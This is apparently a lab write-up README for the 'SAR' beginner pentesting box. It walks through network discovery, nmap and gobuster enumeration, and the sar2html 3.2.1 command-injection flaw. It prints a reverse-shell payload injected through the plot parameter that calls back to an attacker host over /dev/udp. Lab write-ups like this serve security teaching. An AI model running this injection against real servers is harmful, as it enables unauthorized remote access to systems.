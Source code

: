 # SAR

## Introduction

This box is designed to help beginner pentester to get familiar with some pentesting concepts like shell reversing and privilege escalation.

## Information

### Access

### Key Processes

This machine hosts an apache web server, that has the sar2html tool.

## Writeup

After running the machine, the first thing we encounter is the ubuntu authentificator, and find that there is a user called love. 
<img src="assets/auth.png"><br>
But before starting the enumeration phase, we need to get the ip adress of the machine, and to do so we need to run the command netdiscover 
```
sudo netdiscover
```
<img src="assets/netdiscover.png"><br>
Now that we have the ip adress, we can run nmap 

## Enumeration

### Nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.66.153
```
<img src="assets/nmap.png"><br>

We can see that there is one port open (port:80:http), but after checking out its content on the browser it seems to be the apache default page.

<img src="assets/home_apache.png"><br>

### Directory bruteforcing

To check if there are other directories, I used gobuster to bruteforce any existing files or directories in the current directory.
```
gobuster -w ./wordslist2.txt -u 192.168.66.153
```
<img src="assets/gobuster.png"><br>
And we found that there is a robots txt file that pointed us to the right direction.
<img src="assets/robots.png"><br>

### Understanding the vulnerability
Sar2html is a tool that comes with most linux machines, and was found to be vulnerable in version 3.2.1: https://www.exploit-db.com/exploits/47204 . The attacker can manipulate the plot variable to inject command line code into the machine.
<img src="assets/page.png">

### Reverse shell
In order to work freely, I sent an http request with a reverse shell command using a <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp">payload</a>: 
```
;/bin/bash -c 'bash -i >& /dev/udp/192.168.66.191/4242 0>&1'
```
<img src="assets/postman.png"><br>
And used netcat to intercept the communication on my host machine
<img src="assets/nc.png"><br>
